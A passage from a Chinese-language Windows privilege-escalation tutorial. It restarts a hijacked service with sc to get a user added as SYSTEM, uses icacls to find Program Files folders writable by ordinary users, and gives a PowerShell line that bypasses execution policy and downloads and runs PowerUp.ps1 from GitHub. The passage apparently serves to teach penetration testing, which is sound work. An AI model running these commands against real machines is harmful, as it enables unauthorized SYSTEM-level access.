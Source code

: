 -   重启服务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>sc stop VMTools<br>sc start VMTools<br>``` |

但要注意这里启动时会报错，因为当一个服务在 Windows 系统中启动后，它必须和服务控制管理器通信。如果没有通信，服务控制管理器会认为出现了错误，并会终止这个进程。但是我们的命令已经以 SYSTEM 权限运行了，并且成功添加了一个用户。

信息

利用系统自带的 icacls 也可以：

确定写入权限：`icacls "C:\Program Files\program folder"`

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127101438.png-water_print](assets/1699411459-3d911aa63051288003b1ed38875b25cf.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210127101438.png-water_print")

「M」表示修改、「F」表示完全控制

「CI」代表从属容器将继承访问控制项

「OI」代表从属文件将继承访问控制项

常用命令：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```bash<br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "Everyone"<br><br>icacls "C:\Program Files\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>icacls "C:\Program Files(x86)\*" 2>nul \| findstr "(M)" \| findstr "BUILTIN\Users"<br>``` |

#### [](#312-powersploit)3.1.2 PowerSploit

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```powershell<br>powershell.exe -exec bypass -nop -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); Invoke-AllChecks"<br><br>powershell.exe -exec bypass -Command "& {Import-Module D:/PowerUp.ps1; Invoke-AllChecks}" > 1.txt<br>``` |

列出了所有可能存在问题的服务：
